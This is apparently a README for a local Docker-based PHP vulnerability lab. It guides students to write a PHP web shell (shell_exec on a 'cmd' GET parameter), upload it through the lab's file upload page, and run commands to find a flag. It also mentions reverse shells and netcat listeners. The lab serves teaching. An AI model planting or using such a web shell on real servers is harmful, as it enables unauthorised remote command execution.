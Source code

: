 ## PHP Vuln LAB

### Setup
1. To run the lab, make sure you have docker engine installed. The lab can be started by changing directories `cd LAB`. Create an uploads page by typing from the `LAB` directory `mkdir /src/uploads` and then you can start the container by running `sudo docker-compose up --build --remove-orphans`. - Note that if you currently use docker, the flag `--remove-orphans` may effect other containers you have. Consider changing the ports used in the configs and run with the basic `docker-compose up --build`.

2. Open your web browser and navigate to `http://localhost:8080/`

### Building the Malware

We want to see whats hiding in the criminals webserver. Why don't we exploit the fact that they are using PHP and write some malware! Maybe we can create a shell and run commands to see what's inside.

1. Create a file called `shell.php`, or whatever name you want to call your malware. (We are writing with php so feel free to obfuscate as you'd like for practice. You'll get brownie points?)

2. We want to be able to execute shell commands from the URL or setup a reverse shell. Refer to Dr. O'learys [Cyber Operations text book](https://www.amazon.com/Cyber-Operations-Building-Defending-Attacking/dp/1484242939) for details on how to setup reverse shells, and/or look into what a netcat listener is. Brownie Points for making a reverse shell, however for this lab we will just be focusing on pumping commands through the URL field in our browser.

- How can we execute shell commands through our browser? We want the server to recognize our GET requests as shell commands with the input `cmd`. Here is an example of how I would start to build mine:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = ($_GET['cmd']);
    // We want to be able to view the output. Is the following necessary?
    echo "<pre>";
    $output = shell_exec($cmd);
    echo $output;
    echo "</pre>";
    exit; // Exit after executing the command
}
?>
```
3. Upload your fresh and snazzy malware to the upload link and navigate to `http://localhost:8080/uploads/`. Use your intuition from here to see if you can inject some commands and locate the super secret flag!

Example Input:
`http://localhost:8080/uploads/shell.php?cmd=whoami`
